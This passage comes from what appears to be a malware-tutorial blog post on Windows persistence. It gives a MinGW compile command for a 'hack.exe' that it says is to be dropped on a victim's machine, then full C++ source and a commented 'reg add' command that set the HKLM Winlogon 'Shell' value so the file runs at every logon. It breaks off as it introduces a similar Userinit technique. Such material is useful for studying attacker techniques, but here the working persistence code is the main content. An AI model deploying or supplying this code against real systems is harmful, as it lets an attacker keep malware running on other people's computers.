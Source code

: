 As you can see, it's just a pop-up "meow" message as usually.    

Let's go to compile it:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/58/2022-06-12_14-17.png){:class="img-responsive"}    

The generated `hack.exe` needs to be dropped into the victim's machine.

Changes to the `Shell` registry key that include an malicious app will result in the execution of both `explorer.exe` and `hack.exe` during Windows logon.

This can be done immediately using the script below:

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  // const char* sh = "explorer.exe,Z:\\2022-06-12-malware-pers-7\\hack.exe";
  const char* sh = "explorer.exe,hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Also, similar for `Userinit`. If this registry key include an malicious app will result in the execution of both `userinit.exe` and `hack.exe` during Windows logon:
